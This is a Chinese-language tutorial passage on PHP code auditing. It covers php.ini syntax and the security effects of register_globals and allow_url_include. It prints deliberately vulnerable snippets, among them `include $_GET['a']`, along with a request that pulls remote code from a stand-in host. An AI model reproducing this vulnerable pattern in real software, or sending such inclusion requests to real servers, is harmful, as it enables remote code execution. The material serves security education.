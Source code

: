 # php代码审计之配置文件

配置文件（php.ini）在 PHP 启动时被读取。对于服务器模块版本的 PHP，仅在 web 服务器启动时读取一次。

代码在不同环境下执行的结果也会大有不同，可能就因为一个配置问题，导致一个非常高危的漏洞能够利用;也可能你已经找到的一个漏洞就因为你的配置问题，导致你鼓捣很久都无法构造成功的漏洞利用代码。然而，在不同的PHP版本中配置指令也有不一样的地方，新的版本可能会增加或者删除部分指令，改变指令默认设置或者固定设置指令，因此我们在代码审计之前必须要非常熟悉PHP各个版本中配置文件的核心指令，才能更高效地挖掘到高质量的漏洞。

## php配置的语法

指令是使用以下语法指定的:指令名是*区分大小写的*
directive(指令) = value(值)
foo=bar 不等于 FOO=bar

INI 文件的表达式被限制于位运算符和括号。
|、&、~、!

空字符串可以简单地通过在等号后面不写任何东西来表示或使用None关键字:
foo =         ; 将foo设置为空字符串
foo = none    ; 将foo设置为空字符串
foo = "none"  ; 将foo设置为字符串" none "

可以使用值1、on、True或Yes来打开它们。
可以使用值0、off、False或No来关闭它们。

## php的配置参数

- register_globals(全局变量注册开关)

该选项在设置为on的情况下，会直接把用户GET、POST等方式提交上来的参数注册成全局变量并初始化值为参数对应的值，使得提交参数可以直接在脚本中使用。register_ globals 在PHP版本小于等于4.2.3时设置为PHP_INI_ALL,从PHP 5.3.0起被废弃，不推荐使用，在PHP 5.4.0中移除了该选项。

当register_globals设置为on且PHP版本低于5.4.0时，如下代码输出结果为true。

```php
<?php
if($user == 'admin'){
    echo 'true';
}
?>
访问：
http://localhost/index.php?user=admin
```

- allow_url_include(是否允许包含远程文件)
- allow_url_fopen(是否允许打开远程文件)

在该配置为on的情况下，它可以直接包含远程文件，当存在include($var)且$var可控的情况下，可以直接控制$var变量来执行PHP代码。allow_url_include在PHP 5.2.0后默认设置为off,配置范围是PHP_INI_ALL。与之类似的配置有allow_url_fopen， 配置是否允许打开远程文件。

配置allow_url_include为on，可以直接包含远程文件。

```php
<?php
include $_GET['a'];
?>
访问：
http://localhost/index.php?a=http://fake-blog.com/index.php
```
